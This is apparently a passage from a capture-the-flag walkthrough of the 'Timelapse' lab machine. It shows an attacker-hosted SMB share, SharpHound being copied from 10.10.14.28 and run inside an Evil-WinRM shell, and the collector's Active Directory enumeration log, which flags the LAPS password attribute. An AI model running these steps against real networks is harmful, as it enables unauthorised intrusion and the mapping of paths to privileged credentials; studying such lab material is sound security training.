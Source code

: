 Running sharphound.exe in windows and coping the zip file to linux 

### Setting up smb server in linux

```bash
impacket-smbserver share . -smb2support 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

### Copying sharphound.exe to windows and running sharphound

```bash
*Evil-WinRM* PS C:\Users\legacyy\Documents> copy //10.10.14.28/share/SharpHound.exe SharpHound.exe
*Evil-WinRM* PS C:\Users\legacyy\Documents> ./SharpHound.exe
2025-08-02T07:12:25.2531144-07:00|INFORMATION|This version of SharpHound is compatible with the 5.0.0 Release of BloodHound
2025-08-02T07:12:25.3312431-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, CertServices, LdapServices, WebClientService, SmbInfo
2025-08-02T07:12:25.3624920-07:00|INFORMATION|Initializing SharpHound at 7:12 AM on 8/2/2025
2025-08-02T07:12:25.3781156-07:00|INFORMATION|Resolved current domain to timelapse.htb
2025-08-02T07:12:25.5812431-07:00|INFORMATION|Loaded cache with stats: 17 ID to type mappings.
 0 name to SID mappings.
 1 machine sid mappings.
 3 sid to domain mappings.
 0 global catalog mappings.
2025-08-02T07:12:25.5812431-07:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, CertServices, LdapServices, WebClientService, SmbInfo
2025-08-02T07:12:25.6437427-07:00|INFORMATION|Beginning LDAP search for timelapse.htb
2025-08-02T07:12:25.7062401-07:00|INFORMATION|Beginning LDAP search for timelapse.htb Configuration NC
2025-08-02T07:12:25.7218660-07:00|INFORMATION|Producer has finished, closing LDAP channel
2025-08-02T07:12:25.7218660-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2025-08-02T07:12:25.7218660-07:00|INFORMATION|[CommonLib ACLProc]Building GUID Cache for TIMELAPSE.HTB
2025-08-02T07:12:25.7374908-07:00|INFORMATION|[CommonLib ACLProc]Building GUID Cache for TIMELAPSE.HTB
2025-08-02T07:12:25.7531164-07:00|INFORMATION|[CommonLib ACLProc]Found GUID for ACL Right ms-mcs-admpwd: 657e154a-f8d8-44aa-9de5-bc5ddc1e7620 in domain TIMELAPSE.HTB
2025-08-02T07:12:25.7687459-07:00|INFORMATION|[CommonLib ACLProc]Found GUID for ACL Right ms-mcs-admpwd: 657e154a-f8d8-44aa-9de5-bc5ddc1e7620 in domain TIMELAPSE.HTB
2025-08-02T07:12:25.8468650-07:00|INFORMATION|[CommonLib ACLProc]Building GUID Cache for TIMELAPSE.HTB
2025-08-02T07:12:25.8624921-07:00|INFORMATION|[CommonLib ACLProc]Found GUID for ACL Right ms-mcs-admpwd: 657e154a-f8d8-44aa-9de5-bc5ddc1e7620 in domain TIMELAPSE.HTB
2025-08-02T07:12:26.0812414-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2025-08-02T07:12:26.0968645-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2025-08-02T07:12:26.2062435-07:00|INFORMATION|Status: 315 objects finished (+315 Infinity)/s -- Using 37 MB RAM
2025-08-02T07:12:26.2062435-07:00|INFORMATION|Enumeration finished in 00:00:00.5715286
2025-08-02T07:12:26.2687498-07:00|INFORMATION|Saving cache with stats: 17 ID to type mappings.
 0 name to SID mappings.
 1 machine sid mappings.
 3 sid to domain mappings.
 0 global catalog mappings.
```
